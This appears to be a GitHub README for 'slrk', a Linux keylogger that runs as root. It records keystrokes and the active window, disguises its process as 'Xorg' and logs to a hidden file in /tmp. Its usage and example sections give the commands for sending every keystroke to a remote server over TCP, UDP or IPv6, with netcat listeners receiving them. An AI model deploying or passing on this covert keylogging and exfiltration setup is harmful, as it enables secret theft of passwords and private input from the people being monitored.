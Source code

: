# Simple_Local&Remote_Keylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##USAGE:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLE:

####[TCP]
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
####[UDP]
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
####[IPv6]
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```	
